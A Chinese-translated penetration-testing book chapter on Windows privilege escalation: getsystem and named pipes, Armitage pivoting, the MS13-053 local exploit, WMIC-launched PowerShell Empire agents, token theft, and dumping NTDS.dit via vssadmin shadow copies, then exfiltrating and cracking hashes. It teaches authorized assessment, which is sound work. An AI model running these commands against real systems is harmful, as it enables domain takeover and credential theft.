

# 第十六章：提升权限

当我们考虑渗透任何系统时——无论是计算机系统还是物理访问某个建筑物——没有人在初次攻破时是城堡的主宰。这正是现实世界攻击如此隐蔽且难以检测的原因；攻击者从一个微不足道的位置开始，几乎没人察觉他们的存在。例如，考虑物理渗透一个安全建筑。经过几个月的研究，我终于能够悄悄复制清洁工的钥匙，并且他毫不知情。现在，我可以进入建筑外围的清洁工储藏室。我拥有这座建筑吗？不。我是否拥有一个能让我看到之前无法获得的视角的立足点？当然。也许管道和电缆穿过这个储藏室。也许这个储藏室紧邻一个安全房间。

权限提升的原理是利用我们低权限位置中的可用资源来提高我们的权限。这可能包括窃取属于高权限账户的访问权限，或利用漏洞欺骗系统执行某些以提升权限的操作。本章将从这两个角度进行探讨，涵盖以下主题：

+   使用 Armitage 攀登权限阶梯

+   使用 Metasploit 进行本地漏洞利用

+   通过 WMIC 和 PS Empire 提升权限

+   使用 vssadmin 攻击域控制器

# 技术要求

本章所需的内容如下：

+   Kali Linux

+   在虚拟机上运行的 Windows 7 SP1

+   配置为域控制器的 Windows Server 2012

# 使用 Armitage 攀登权限阶梯

权限提升如今是一个有趣的话题，因为我们手头的工具在后台做了很多事情。当我们使用 Metasploit 和 Armitage 前端时，很容易把系统的复杂性视为理所当然。例如，在 Meterpreter 会话中，我们可以执行 `getsystem`，通常在几秒钟内便能获得 `SYSTEM` 权限。为什么这一切如此轻松地完成？首先，我们将看一下 Windows 中的几个核心概念：命名管道和安全上下文。

## 命名管道与安全上下文

是的，你说得对；在这个上下文中，*pipe*一词与类 Unix 系统中的管道相关（并且正如我们在*第九章*《PowerShell 基础》一章中讨论的那样，它也与 PowerShell 中的管道相关）。我们操作过的管道是没有名字的，并且存在于 shell 中。另一方面，命名管道概念为管道赋予了一个名字，并通过有名字这一特性，它利用了文件系统，使得与它的交互就像与文件进行交互一样。记住我们管道的目的——将一个命令的输出作为输入传递给另一个命令。这是更简化的理解方式——在幕后，每个命令都会启动一个进程。所以，管道的作用是允许进程通过共享数据互相通信。这只是实现**进程间通信**（**IPC**）的几种方法之一。因此，总结起来，命名管道是一个文件，进程可以与之交互以实现 IPC。

不要忘记我们在 Windows 安全性探索过程中一个持久的主题：微软总是喜欢按自己的方式做事。Windows 中的命名管道与 Unix 类系统中的概念有一些重要的区别。首先，在 Unix 中，命名管道可以超越进程的生命周期，而在 Windows 中，当最后一个引用它的对象消失时，它就会消失。Windows 的另一个特点是，尽管命名管道的工作方式与文件相似，但不能在文件系统中挂载。它们有自己的文件系统，并通过`\\.\pipe\[name]`进行引用。开发者可以使用一些函数来操作命名管道（例如，`CreateFile`、`WriteFile` 和 **CloseHandle**），但用户是看不见它们的。

在 Windows 中，有一些情况下，命名管道是对用户可见的。你，那个机智的高级用户，曾在使用 WinDbg 调试时看到了这个概念的运作。

让我们更深入地探讨一下在 Windows 中实现的这个概念。我之前举过一些使用命名管道的函数的例子。那些是**管道客户端**函数。命名管道的初始创建可以通过`CreateNamedPipe`函数来完成——这是一个**管道服务器**函数。命名管道的创建者是**管道服务器**，而附加到命名管道并使用它的应用程序是管道客户端。客户端连接到命名管道的服务器端，并使用`CreateFile`和`WriteFile`与管道进行通信。尽管命名管道只能在本地创建，但也可以与远程命名管道进行交互。在命名管道路径中，句点被主机名替换，以便与远程管道进行通信：

图 16.1 – 命名管道的视觉表现

服务器-客户端的术语并非偶然。**管道服务器**创建命名管道并处理管道客户端的请求。

## 假扮管道客户端的安全上下文

如果你对这个概念不熟悉，你可能看到了这一节的标题，并且想，*哦，命名管道客户端冒充？我想知道接下来我们会安装什么黑客工具！* 不是的。这是正常行为，是通过`ImpersonateNamedPipeClient`函数实现的。你作为安全专家可能会觉得，在 IPC 中允许安全上下文的冒充简直疯狂，但你作为软件设计师可能对最初的无辜逻辑很熟悉，这种逻辑允许更高效的架构。假设一个特权进程创建了一个命名管道。那么，你就有了一个情境，其中管道客户端请求由特权管道服务器读取和管理。冒充允许管道服务器在处理管道客户端请求时减少其特权。自然，允许冒充本身意味着具有较低特权的管道服务器可能会冒充特权管道客户端，并代表客户端做一些坏事。嗯，这可不行。幸运的是，管道客户端可以在`CreateFile`函数调用中设置标志，以限制这种冒充，但他们不一定需要这么做。通常会看到忽略这一步。

## 多余的管道和管道创建竞态条件

我知道你内心的黑客此刻在说什么：*看起来整个命名管道服务器-客户端概念都依赖于命名管道存在且管道服务器可用这一假设*。很棒的推理！一个进程完全可能在不知道管道服务器是否已经创建管道的情况下尝试连接到命名管道。服务器可能已经崩溃，或者服务器端根本没有被创建——无论如何，如果发生这种情况，就会出现一个独特的漏洞：管道客户端的安全上下文可以被一个仅仅创建了请求管道的进程夺走！在某些应用程序设计为不断请求命名管道，直到成功的情况下，这种情况很容易被利用。

类似的情况发生在恶意进程在合法进程有机会之前创建了一个命名管道——一种竞态条件。在类 Unix 系统中，命名管道也被称为`FIFO`，以其*先进先出*的结构命名。这几乎与管道的流动方式一致，所以这个名称很合适。不管怎样，在命名管道创建竞态条件中，FIFO 结构的一个后果是，第一个创建命名管道的管道服务器将获得第一个请求该管道的客户端。如果你知道某个特权管道客户端将会发起特定请求，攻击者只需要成为第一个排队的用户，从而篡夺客户端的安全上下文。

## 超越 Armitage 的立足点

现在我们已经了解了`getsystem`如何操作的理论背景，接下来让我们回到利用 Armitage 进行后期阶段。如果看起来我们有点跳跃，那是因为我认为了解工具背后发生的事情很重要，这样当工具为你去除障碍时，你能够理解。比如，Armitage 在你成功获得目标立足点后，会自动尝试进行权限升级。让我们来看看。

在这个场景中，我刚刚成功地从网络上嗅探到一个密码。这个密码正被一个我知道是服务器管理员的用户用在一个本地管理设备上，所以我凭直觉尝试向域控制器认证。遗憾的是，这种方法在现实世界中经常奏效，但它也是一个宝贵的培训机会。无论如何，在 Armitage 中，我定位到域控制器，右键点击图标并选择`Login`，然后选择`psexec`：

图 16.2 – 在 Armitage 中传递哈希

密码成功了，恐怖的闪电将可怜的服务器封锁。当我观察时，我注意到`NT AUTHORITY\SYSTEM`出现在主机下。我已作为管理员认证，Armitage 非常友好地帮我升级到了`SYSTEM`权限：

图 16.3 – Armitage 中主机受损的示意图

现在，我们要将一些自动化功能引入 pivoting 的概念——而 Armitage 让这一切变得太简单了。

## Armitage pivoting

我们在 MSF 控制台上讲解了 Pivoting，过程相当简单。Armitage 让这一过程变得极其简单。记住，Armitage 作为红队工具表现得非常出色，因此快速设置 pivot，即使是一个小团队，也能像瘟疫一样在网络中蔓延。

我右键点击目标，选择我的 Meterpreter 会话，然后点击`Interact`，接着选择`Command shell`。现在，我可以以`SYSTEM`身份与 CMD 交互。快速执行`ipconfig`命令，发现有另一个接口附加在`10.108.108.0/24`子网中：

图 16.4 – 在 Armitage 中受损主机上的 ipconfig

我看到你拿出纸和笔准备记下子网掩码和网关。现在，想象一下我慢动作伸手出来，把它从你手中打掉。Armitage 已经帮你准备好了，它讨厌你太辛苦工作。让我们右键点击目标，再次找到我们的 Meterpreter 会话；这次，选择`Pivoting`，然后点击`Setup`。如你所见，Armitage 已经知道了可见的子网。我们只需要点击`Add Pivot`，选择我们需要扩展的子网：

图 16.5 – Armitage 中的添加 Pivot 对话框

你将回到主显示界面。不同之处在于，现在，当某个特定的扫描器要求你输入网络范围时，你可以输入你的新范围。Armitage 已经配置了跳板，并知道如何相应地路由探测。

延续好莱坞黑客电影的酷炫视觉效果，跳板通过绿色箭头显示，指向所有通过跳板点学习到的主机，箭头的起点就是跳板。

图 16.6 – 描绘在 Armitage 中超越立足点的主机枚举

后期阶段的一个重要基本事实是它是迭代的。你刚刚迈出了第一步，现在，你可以将模块指向隐藏在跳板点后的系统。Armitage 知道自己在做什么，并在幕后配置 Metasploit，所以一切都会按需要的方式路由。点点点击黑客攻击！

到这时，我们来看一个本地漏洞利用的例子——你将在已建立的非 SYSTEM 会话内执行此操作。

# 当简单方法失败时——本地漏洞利用

每个实验演示都会包含某些假设。到目前为止的一个假设是，Armitage/Metasploit 能够通过`getsystem`实现`SYSTEM`权限。正如我们在命名管道速成课程中所学到的，针对这种情况是有防御措施的，而且我们执行`getsystem`时常常是盲目的。它总是被认为只是一种尝试，并没有保证结果。

让我们来看一个例子。在这台实验计算机中，我们通过窃取凭据破解了一个低权限的用户账户。在用`getuid`验证我正在以低权限账户（称为**User**）运行后，我将会话置于后台，并执行`search exploits local`。这个查询将搜索所有以`local`为关键字的漏洞。在我们启动选择的本地提升漏洞利用之前，让我们回到内核领域，那里本地提升漏洞可是个大麻烦。

## 内核池溢出与数据类型的危险

Windows 内核中有一个负责从发送线程获取消息的函数，这些消息已经被转发到接收线程以实现线程间通信：`xxxInterSendMsgEx`。某些消息类型需要返回缓冲区，因此需要定义分配的空间；在确定所需的缓冲区大小后，会调用 `Win32AllocPoolWithQuota` 函数。如何确定这个大小很重要。有两个考虑因素：消息类型和传递给系统调用的参数，这些参数要求发送消息。如果预期返回的数据是字符串，那么我们就要考虑字符是如何编码的；经典的 ASCII 还是 WCHAR。ASCII 是一种特定的字符编码，每个字符标准化为 8 位，而 WCHAR 是 *宽字符*，广义上指的是使用超过 8 位的字符集。早在 1980 年代末期，**通用编码字符集**（**UCS**）出现，并标准化为 ISO/IEC 10646。它设计用来支持多种语言，并且每个字符可以使用 16 位甚至 32 位。UCS 字符集与流行的 Unicode 标准同步，今天流行的 Unicode 编码格式包括 UTF-8、UTF-16 和 UTF-32，只有 UTF-8 与 ASCII 有相同的字符大小。因此，分配 ASCII 编码的消息 `Hello, World!` 会需要 13 字节的内存。然而，在 32 位 WCHAR 格式下，我将需要 52 字节来存储相同的消息。

回到内核中的线程间通信，`CopyOutputString` 函数在按需转换字符的同时，使用两个标准填充内核缓冲区——接收窗口的数据类型和传递给消息调用的最后一个参数请求的数据类型。这给我们提供了四种组合，它们以四种不同的方式处理，如下所示：

关键在于，这些不同的操作将导致不同的数据长度，但缓冲区已经通过 `xxxInterSendMsgEx` 通过 `Win32AllocPoolWithQuota` 被分配了。我想你已经明白接下来会发生什么，所以我们快速跳转到我们的 Metasploit 模块，它已经准备好创建一个场景，导致池溢出，从而允许我们以内核权限执行代码。

## 让我们懒一点——Windows 7 上的 Schlamperei 权限提升

微软通过公告 MS13-053 及其相关补丁解决了这个特定的内核漏洞。利用 MS13-053 的本地漏洞利用模块叫做 `Schlamperei`。这个词来源于德语，意思是懒惰、马虎和低效。觉得不公平吗？在 Metasploit 中设置 `use exploit/windows/local/ms13_053_schlamperei`，然后输入 `show options`。准备好迎接一长串的选项吧！

我在开玩笑——这里只有一个选项，那就是定义 Meterpreter 会话，在该会话中尝试这一操作：

图 16.7 – 通过漏洞模块进行本地提权到 SYSTEM

这只是一个快速而简单的示例，所以我鼓励你查看所有可用的本地漏洞利用方法。熟悉它们及其各自的漏洞和目标类型。

现在，让我们深入探讨利用 Windows 内置的管理能力的神奇世界。

# 使用 WMIC 和 PS Empire 进行提权

让我们先了解一下基本定义。WMIC 是一个工具的名称，代表**Windows 管理工具命令**。命令部分指的是命令行接口；可以假定 WMICLI 太长了。该工具允许我们执行 WMI 操作。WMI 是 Windows 基础设施，用于操作和管理数据。除了向 Windows 的其他部分和其他产品提供管理数据外，还可以使用 WMI 脚本和应用程序自动化本地和远程的管理任务。通常，管理员通过 PowerShell 访问此接口。请记住，正确使用 WMIC 值得一本书的详细介绍，所以把这看作是一个介绍。如果你感兴趣，网上和书店都有很多优秀的资源。

就目前而言，我们对我刚提到的远程管理感兴趣。作为渗透测试人员，我们有几个重要的事实需要考虑：

+   在命令行中使用 WMIC 命令不会留下任何软件或代码的痕迹。虽然 WMI 活动可以被记录，但许多组织未开启或未审查日志。WMI 是另一个在 Windows 中往往被忽视的功能。

+   在几乎任何 Windows 环境中，WMI 和 PowerShell 都无法被阻止。

总结一下，我们意识到可以利用 WMIC 远程管理 Windows 主机，同时利用目标的 PowerShell 功能。

## 用 WMIC 悄悄地生成进程

对于这个练习，我招募了一个 Windows 7 攻击 PC，用于对 Windows Server 2012 目标发动 WMI 命令。现在你有两个攻击者 – Kali 和 Windows。

让我们用 WMIC 探索一分钟，看看它是什么样子。打开`CMD`命令提示符并执行`wmic`。这将进入交互式会话。现在，执行`useraccount list /format:list`：

图 16.8 – 从 WMIC 获取用户帐户

WMIC 以便捷的格式返回本地用户帐户。并不是特别令人兴奋。有趣的地方在于远程管理。现在，尝试使用**node:[IP 地址] /user:[DOMAIN]\[User] computersystem list brief /format:list**命令。系统会提示输入用户密码：

图 16.9 – 从 WMIC 获取系统信息

噢，现在这个有点有趣。不过，乐趣还没有结束。尝试使用`path win32_process call create "calc.exe"`命令，同时保留`node:[*`IP 地址`*] /user:[*`域`*]\[*`用户`*]`头部。提示时别忘了输入`Y`：

图 16.10 – 使用 WMIC 执行进程

看看这个；**方法执行成功**。**输出参数**告诉我们主机返回给我们的内容；我们可以看到一个 PID 和`ReturnValue`为`0`（表示没有错误）。现在，去你的目标系统上看看屏幕上的友好计算器。等等，它在哪里？也许命令终究是失败了。

让我们看一下 Windows 任务管理器：

图 16.11 – 从目标的角度看正在运行的任务

它确实执行了`calc.exe`。也确认一下 PID——它是由我们的命令启动的实例。如果你曾经写过脚本或其他启动进程的程序，即使你尝试隐藏它，看到命令窗口在屏幕上闪烁一下也是熟悉的经历，我们通常希望用户看不见它。悄悄启动 PowerShell？简直是无价之宝。

## 使用远程 WMIC 创建 PowerShell Empire 代理

让我们启动 Empire，使用`./empire`（在其目录中）并配置一个监听器。在主提示符下，输入`listeners`，然后输入`uselistener http`。你可以随意命名，我叫它 WMIC，以区分这次攻击：

图 16.12 – 在 Powershell Empire 中设置监听器

回到主菜单，你可以再次执行`listeners`来确认它是否已启动并正常运行。现在，我们需要一个 stager。请记住，stager 是封装在某种形式中的 PowerShell 命令，旨在使它们得以执行。例如，你可以生成一个 BAT 文件，然后将其传输到目标机器上执行。在这里，我们使用 WMI 远程创建进程——我们只需要原始命令。因此，选择的具体 stager 不那么重要，因为我们只是从中提取命令。就我而言，我选择了执行`usestager windows/launcher_bat`的 BAT 文件选项。现在唯一重要的是配置监听器以将生成的代理与之关联——记住你之前设置的名称。如果你像我一样使用了 WMIC，那么命令是`set Listener WMIC`（不要忘记它是区分大小写的）。执行`execute`，你的 BAT 文件将被放入`tmp`文件夹中。用你喜欢的编辑器打开它并提取 PowerShell 命令：

图 16.13 – 创建与监听器关联的启动器 BAT 文件

为了证明反恶意软件厂商的聪明才智，我尝试通过 Gmail 发送一个 Empire 阶段性命令，作为 `TXT` 文件发送，结果它被标记为病毒。我本以为使用纯文本会让事情变得更简单，没想到，确实又是坏人们的另一个障碍。

现在，让我们回到 Windows 攻击机，带着 PowerShell 命令。我正在准备针对目标的 WMIC 命令。请注意，我没有使用交互式会话。因为它有字符限制，而这个长字符串需要尽可能多的空间。所以我将它转储到普通的 CMD 会话中，并将命令作为参数传递给 `wmic`。

别忘了，`win32_process call create` 参数必须用引号括起来。

我希望我能告诉你，这一切就像那些动作片中的情节，硬汉从爆炸中若无其事地走开，甚至不回头看看。但实际上，这看起来更像是计算器进程的启动。你会得到一个 PID 和 `ReturnValue = 0`。无论如何，我鼓励你想象那个爆炸的场面：

图 16.14 – 在 WMIC 中丢弃命令

让我们跳到 Kali 攻击者的机器上，Empire 监听器正忠实地等待代理报告回总部。果然，我们可以看到新的代理已经配置好，准备接受任务。尝试 `info` 命令以确认主机和代理使用的安全上下文的用户名。请注意，这里也显示了 PID——它将与 WMIC 输出参数中的 PID 相匹配。

## 通过访问令牌窃取将你的代理提升为 SYSTEM

就在上周，我和家人去县集市玩。我的女儿第一次坐过山车，我妻子看了猪赛跑，我们一直喝着冰沙柠檬水，直到糖分过量。当你第一次到达时，你会去售票处，购买两种选项之一——一本单独的票册，可以像现金一样用来进入游乐设施，或者是一个腕带，可以让你无限制地进入所有设施。Windows 中的访问令牌类似（除了猪赛跑部分）。当用户成功通过身份验证后，系统会生成一个访问令牌。每个代表该用户执行的进程都会有这个令牌的副本，而这些令牌用于验证拥有它的进程或线程的安全上下文。这样，你就不需要多个不同的进程在同一用户下运行，也不需要每次都进行密码认证。

然而，假设某人在县博览会上偷走了我的腕带。这个人就能以我的权限在旋转木马上骑乘，即使腕带是通过合法的现金交易获得的。实际上，有一些方法可以从以 `SYSTEM` 安全上下文运行的进程中盗取令牌，从而完全控制目标。现在我们已经在目标上运行了代理，接下来让我们指派它执行令牌盗窃任务。首先，我们需要知道当前有哪些进程在运行。记住，我们可以使用 `tasklist` 来查看正在运行的进程，并捕获每个进程的 PID。

指派 Empire 代理执行 `shell tasklist`：

图 16.15 – 我们 PowerShell Empire 会话中的 tasklist

在确定了要盗取的进程 ID 后，指派代理执行 `steal_token`：

图 16.16 – SYSTEM 令牌已被盗！

现在，让我们来看看如何攻陷已被攻破的域控制器。我们再次将通过利用 Windows 管理工具来“活用土地”。

# 在阴影中舞蹈 – 使用 vssadmin 抢夺域控制器

所以，你已经在客户环境中取得了域管理员权限。恭喜你！接下来怎么办？

在关于从初步入侵向前推进以及提升权限的章节中，我们需要一些跳出常规的思维方式。我们已经覆盖了许多技术内容，但不要忘记整体思路——你是在为客户进行评估，你的成果价值不仅仅是一堆带有绿色文本的截图。当你和黑客朋友们一起喝酒，告诉他们你成功获得了域管理员权限时，他们明白这意味着什么。但当你向客户的高层管理人员汇报你的发现时呢？我曾有无数次的高层直接问我，“那又怎么样？”用力晃动他们的肩膀并大声喊出“我通过监听他们的打印机获得了域管理员权限”是不会说服任何人的。现在，让我来对比一下我和客户的会谈，我告诉他们，我已经在一个电子表格中获得了他们 3,000 名员工中 68% 的密码，而且每小时还在持续增加。相信我，这样会引起他们的注意。

在从环境中窃取密码时，有不同的方式可以做到，而且它们各自具有不同的含义。例如，在办公室四处寻找写下来的密码出奇的有效。这通常发生在进行物理评估时，但我们曾经偶尔在审计过程中这样做，而不需要偷偷摸摸。这种事情可能会让你出现在监控摄像头的录像中。我们也讨论了一些技术方法——基本上，任何涉及有效载荷的操作都可能被杀毒软件检测到。只要你能利用内建的机制来完成任务，你就更不容易触发警报。我们从 PowerShell 中学到了这一点。还有另一个管理员工具，根据环境的不同，它可能作为备份程序的一部分被允许使用：`vssadmin`，即卷影像副本服务管理工具。

影像副本也称为快照；它们是复制品，是受保护文件、共享和文件夹的时间点备份。复制品由 **数据保护管理器**(**DPM**) 服务器创建。在复制品首次创建后，它会定期通过增量更新受保护的数据。影像副本是数据的完整副本，基于最后一次同步。我们在这里关心的是它，因为在我曾经工作的每个环境中，Windows 系统都包含在复制品中，特别是其中有两个非常重要的小文件：`NTDS.dit` 和 `SYSTEM` 注册表 hive。`NTDS.dit` 是 Active Directory 的实际数据库文件，因此它只存在于域控制器上。`SYSTEM` hive 是 Windows 注册表的一个关键组件，包含大量配置数据和硬件信息。然而，我们需要的是用来加密密码数据的 `SYSKEY` 密钥。

当你准备好进行探索时，启动 `vssadmin` 在你的域控制器上并查看选项：

图 16.17 – vssadmin 帮助屏幕

让我们深入了解如何创建影像副本并从中窃取内容。

## 从影像副本中提取 NTDS 数据库和 SYSTEM hive

最好先使用 `vssadmin List Shadows` 列出任何现有的影像副本。有时，影像副本会定期创建，拥有一个最近的快照意味着你可以直接跳到复制数据库和 hive 的步骤。这会稍微减少被发现的风险。假设没有影像副本存在（或者它们很旧），以 **管理员** 身份运行 `CMD` 提示符并为 C: 驱动器创建影像副本：

> vssadmin Create Shadow /For=C:

你将看到以下确认信息：

图 16.18 – 成功的影像副本

记下影像副本卷的名称，因为在复制操作过程中需要引用它。你将使用传统的**复制**命令，只需将通常称作`C:`的部分替换为`\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1`。NTDS 数据库存储在 Windows 的 NTDS 目录下，`SYSTEM`文件则位于`system32\config`文件夹内。你可以将文件放置在任何位置；这是一个临时位置，用于准备窃取它们。不过，你需要考虑如何将文件从域控制器中取出。例如，如果有一个共享文件夹可以通过网络访问，那么将文件放在那里会是一个理想的选择：

> 复制`\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit` c:\
> 
> 复制\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\SYSTEM c:\

再次确认：

图 16.19 – 从影像副本中复制文件

现在，我们已经得到了“战利品”——但它们仍然保存在目标设备上。我们如何将它们带回家呢？让我们看一下其中一种方法。

## 通过 cifs 在网络中窃取数据

我本可以直接告诉你选择自己喜欢的方式将文件从域控制器中拉出来。既然如此，我就告诉你：用你喜欢的方法去获取“战利品”。有时候，你可以通过 USB 闪存驱动器将文件偷偷带出。目前，让我们回顾一下如何将你的 Kali 盒子挂载到共享文件夹，因为这不仅是恢复活动目录信息的一种常见方式，在 Windows 环境中，它对许多任务都非常有用。首先，我们需要安装`cifs-utils`。幸运的是，它已经包含在软件仓库中：

# apt-get install cifs-utils

安装后，使用`mount -t cifs`来指定共享的位置。请注意，我没有将密码作为参数传递，因为那样会暴露密码的明文。在攻击过程中可能不重要，但你会希望在报告截图中小心处理。省略密码会导致系统提示你输入：

图 16.20 – 在 Kali 中本地挂载的目标 C:驱动器

就这样，没有任何爆炸或令人兴奋的事情，只是在我的系统上创建了一个新的文件夹，可以像使用任何本地文件夹一样使用。我将使用`cp`从域控制器获取文件。就这样，我们将活动目录数据库带到了我们的 Kali 攻击盒子中，域控制器上唯一留下的就是管理员预期存在的影像副本。但等等——如果没有影像副本，我们必须创建一个呢？那我们就留下了一个*不*被预期的影像副本。`vssadmin Delete Shadows`是清理痕迹的好帮手。我建议在从影像副本中提取所需文件后立即使用它。

## 使用 libesedb 和 ntdsxtract 提取密码哈希

现在，言归正传，真正有趣的部分来了。当我刚开始使用这种技术时，过程稍显繁琐；但如今，你只需要*两*个命令，就能将所有内容提取并格式化为 John 所需的格式。不过，有一个警告：我们需要为 Kali 做好准备，以正确构建`libesedb`套件。我们可以通过如`autoconf`等工具自动完成所有这些，它是一个神奇的工具，能够生成自动配置软件包的脚本。关于我们即将安装的内容的详细讨论超出了本讨论的范围，因此我建议你查阅 man 页面以便了解更多。

下面是逐行命令。每一条命令执行完后再继续。可能会花几分钟时间，趁机去补充一下咖啡：

# git clone https://github.com/libyal/libesedb

# git clone https://github.com/csababarta/ntdsxtract

# cd libesedb

# apt-get install git autoconf automake autopoint libtool pkg-config

# ./synclibs.sh

# ./autogen.sh

# chmod +x configure

# ./configure

# make

# make install

# ldconfig

如果你看到这个命令并在想，*不是`*git` *已经安装了吗?*，那么答案是，已经安装了，但是这个命令会更新它。请记住，你需要`pip`来支持 Python 2，如果还没有安装，可以使用`apt-get install python-pip`来安装——然后，运行`python -m pip install pycrypto`来获取`ntdsxtract`所需的低级加密模块。

一旦一切配置完成并准备好，你应该能直接运行`esedbexport`。我们将告诉这个工具导出 NTDS 数据库中的所有表。特别有两个表是我们进行哈希提取所需要的：

# esedbexport -m tables ntds.dit

你会看到以下输出：

图 16.21 – 从我们捕获的 NTDS.dit 文件中导出表

现在，真正的关键时刻到了。我们可以将数据表和链接表传递给`dsusers` Python 脚本，同时提供`SYSTEM` hive 的位置（它包含`SYSKEY`密钥），并让脚本将哈希值以易于破解的格式优雅地格式化：

# cd ntdsxtract

# python dsusers.py /root/ntds/ntds.dit.export/datatable /root/ntds/ntds.dit.export/link_table /root/ntds --syshive /root/ntds/SYSTEM --passwordhashes --lmoutfile /root/ntds/lm.txt --ntoutfile /root/ntds/nt.txt --pwdformat ophc

我鼓励你研究实际数据库中的内容，了解诸如密码历史等信息。这些信息帮助我最大限度地提高了我的发现对客户的影响。为什么我要这么做呢？因为有些组织采取较为严格的密码更换政策，例如 45 天，会有时尝试争辩说我的哈希值都不合法。有时候，他们确实是对的。查看密码历史记录；那些在评估前一天刚登录的用户，可能仍在使用相同的密码：

图 16.22 – 提取的域记录

John 知道如何处理格式化的文本文件。正如你所见，我在大约 30 秒内恢复了我的一个密码，当我执行了`john --fork=2 nt.txt`命令时：

图 16.23 – John 成功恢复密码

一些环境会生成数千个哈希值。即使是运行在普通 CPU 上的 John，也能非常快速地破解那些简单的密码。另一个值得考虑的离线研究领域是 GPU 破解，它利用图形处理器的 FLOPS 来以极快的速度破解密码，尤其是在较短的评估中，这可能带来巨大的差异。

# 总结

在本章中，我们深入了解了一些基本的特权提升技术。我们回顾了 Metasploit 是如何自动完成这一过程的，也探讨了使用本地漏洞实现这一目标的可能性。我们快速回顾了与 Armitage 的后期阶段，并重新审视了 pivoting（跳跃）。我们回顾了 PowerShell Empire，并通过远程 WMI 命令创建了隐秘的代理。接着，我们利用 Empire 模块窃取访问令牌，并复习了其背后的基本概念。最后，我们探索了通过利用内建备份机制从域控制器提取哈希值的技术。总体来说，我们展示了几种利用 Windows 内建功能进行的攻击，增加了我们的隐蔽性，并为客户提供了有用的配置建议。

在最后一章，我们将讨论持久性——那些允许我们在重启和重新配置后保持访问权限的技术。通过建立持久访问的基础，我们可以为自己争取更多时间收集尽可能多的信息，从而提升对客户的评估价值。

# 问题

回答以下问题以测试你对本章内容的理解：

1.  命名管道在类 Unix 系统中也被称为 _____。

1.  一个 ASCII 字符总是 8 位长，而一个 WCHAR 字符总是 16 位长。（正确 | 错误）

1.  WMI 代表什么？

1.  IPC 代表什么？

1.  除了返回的错误代码，成功的远程 WMI 进程调用还将返回 _____，你可以利用它来验证你的代理上下文。

1.  Shadow 副本是哪些内容的副本？

1.  提取 NTDS 数据库中的哈希值时，`SYSTEM`注册表项中包含的关键信息是什么？

# 深入阅读

想要了解更多关于本章内容的资料，请查阅以下资源：

+   命名管道文档：[`docs.microsoft.com/en-us/windows/desktop/ipc/named-pipes`](https://docs.microsoft.com/en-us/windows/desktop/ipc/named-pipes%0D)

+   WMI 参考文档：[`docs.microsoft.com/en-us/windows/desktop/wmisdk/wmi-reference`](https://docs.microsoft.com/en-us/windows/desktop/wmisdk/wmi-reference)
